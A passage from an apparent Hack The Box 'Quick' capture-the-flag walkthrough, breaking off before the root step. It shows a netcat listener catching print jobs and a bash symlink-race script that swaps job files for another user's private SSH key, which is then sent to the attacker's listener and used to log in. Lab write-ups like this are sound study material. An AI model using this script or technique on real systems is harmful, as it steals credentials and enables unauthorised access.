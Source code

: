 {: .language-php}

I create a new "printer" located at my ip-adress, and open a netcat listener on the port i specify in the web-ui.
![Create Printer](https://jackhack.se/assets/images/quick/create_printer.png)
{: .full}
Then i try to print something by visiting **job.php**, and it get's reflected in my netcat listener:

![Test-print 1]https://jackhack.se/assets/images/quick/(testprint_1.png)
{: .full}
~~~
┌──(kali@kali)-[~/boxes/quick]
└─$ nc -lvnp 9005        
listening on [any] 9005 ...
connect to [10.10.14.40] from (UNKNOWN) [10.10.10.186] 46916
testprintVA  
~~~
{: .language-bash}


As my current user **sam** has full rights to the directory */var/www/jobs* i should be able to symlink the file created by **job.php** to the user *srvadm*'s private ssh-key and output it in my netcat listener.

~~~
sam@quick:/var/www$ ls -la
drwxr-xr-x  5 root root 4096 Mar 21 03:07 .
drwxr-xr-x 14 root root 4096 Mar 20 02:10 ..
drwxr-xr-x  2 root root 4096 Mar 20 03:48 html
drwxrwxrwx  2 root root 4096 Aug 30 12:00 jobs
drwxr-xr-x  6 root root 4096 Mar 21 03:08 printer
~~~
{: .language-bash}

To do that as quicky as needed, i wrote a small bash script.

~~~
#!/bin/bash
cd  /var/www/jobs;
while true;
do
	for FILE in $(ls);
	do
		rm -f $FILE;
		ln -s /home/srvadm/.ssh/id_rsa $FILE;
	done
done
~~~
{: .language-bash}

Putting this into a script, executing it and printing a job at *printerv2.quick.htb/job.php* gives me the private SSH-key of the user **srvadm**

~~~
sam@quick:/var/www$ cd /tmp
sam@quick:/tmp$ nano linkscript.sh
sam@quick:/tmp$ chmod +x linkscript.sh 
sam@quick:/tmp$ ./linkscript.sh 
~~~
{: .language-bash}
![RSA-Key](https://jackhack.se/assets/images/quick/rsa_key.png)
{: .full}
Logging in to **srvadm** using this key works fine, and from here on the root part was really easy:
